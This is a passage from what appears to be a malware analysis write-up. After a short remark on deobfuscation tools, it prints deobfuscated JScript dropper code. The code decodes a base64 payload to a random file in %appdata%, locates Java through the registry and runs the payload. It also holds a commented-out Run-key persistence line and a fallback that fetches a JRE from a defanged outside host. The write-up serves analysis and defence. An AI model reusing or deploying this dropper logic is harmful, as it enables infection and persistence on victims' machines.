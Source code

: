 
### Python Code: Deobfuscation Analysis Results

The Python code yielded neat results, demonstrating the benefits of understanding programming languages in situations like this. While many AI tools are available today that can assist in understanding the nature of obfuscation, my experience has shown that tools like ChatGPT may not effectively deobfuscate malicious code. This limitation arises because manual intervention is often necessary; some obfuscation techniques rely on string manipulation and replacements, which can be time-consuming. CyberChef can be a valuable resource, but it is crucial to utilise the tools you are most comfortable with. In this case, Python has been employed as a tool, yielding reasonable results, as demonstrated bellow.

```javascript

    var re = new RegExp("!>-", "g");
        longText = longText.replace(re, "A");
    var wshShell = WScript.CreateObject("WScript.Shell");
    var tempdir = wshShell.ExpandEnvironmentStrings("%temp%");
    var appdatadir = wshShell.ExpandEnvironmentStrings("%appdata%");
    var r = Math.random().toString(36).replace(/[^a-z]+/g, '').substr(0, 10);
    var stubpath = appdatadir + "\\" + r + ".txt";
    var decoded = decodeBase64(longText);
    writeBytes(stubpath, decoded);
    var fso = WScript.CreateObject("Scripting.FileSystemObject");
    var text = "";

    try {
        text = wshShell.RegRead("HKLM\\SOFTWARE\\Wow6432Node\\JavaSoft\\Java Runtime Environment\\CurrentVersion");
        text = wshShell.RegRead("HKLM\\SOFTWARE\\Wow6432Node\\JavaSoft\\Java Runtime Environment\\" + text + "\\JavaHome");
    } catch (err) {}

    try {
        if (text == "") {
            text = wshShell.RegRead("HKLM\\SOFTWARE\\JavaSoft\\Java Runtime Environment\\CurrentVersion");
            text = wshShell.RegRead("HKLM\\SOFTWARE\\JavaSoft\\Java Runtime Environment\\" + text + "\\JavaHome");
            if (text != "") {
                text = text + "\\bin\\javaw.exe";
            }
        } else {
            text = text + "\\bin\\javaw.exe";
        }
    } catch (err) {}

    try {
        if (text != "") {
            //wshShell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\ntfsmgr", "\"" + text + "\" -jar \"" + stubpath + "\"", "REG_SZ");
            wshShell.run("\"" + text + "\" -jar \"" + stubpath + "\"");
        } else {
            GrabJreFromNet();
        }
    } catch (err) {}

    function GrabJreFromNet() {
        do {
            try {
                var xHttp = WScript.CreateObject("msxml2.serverxmlhttp.6.0");
                var bStrm = WScript.CreateObject("Adodb.Stream");
                xHttp.open("GET", "hxxp://wshsoft.company/jv/jrex.zip", false);
                xHttp.setOption(2, 13056);
```
